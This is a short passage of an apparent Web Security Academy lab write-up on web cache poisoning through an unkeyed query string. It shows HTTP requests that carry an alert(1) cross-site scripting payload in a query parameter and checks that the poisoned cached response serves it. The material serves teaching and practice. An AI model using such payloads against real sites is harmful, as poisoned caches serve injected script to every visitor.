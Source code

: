 
When “X-Cache: hit”, visit “/” and the alert(1) is still in the response:

```
GET / HTTP/2
...
Origin: 0a68004803664d558681b8a800650043.web-security-academy.net
```



![img](images/Web%20cache%20poisoning%20via%20an%20unkeyed%20query%20string/7.png)


Send again the payload but without the “Origin” header:

```
GET /?evil='/><script>alert(1)</script> HTTP/2
...
```



![img](images/Web%20cache%20poisoning%20via%20an%20unkeyed%20query%20string/8.png)

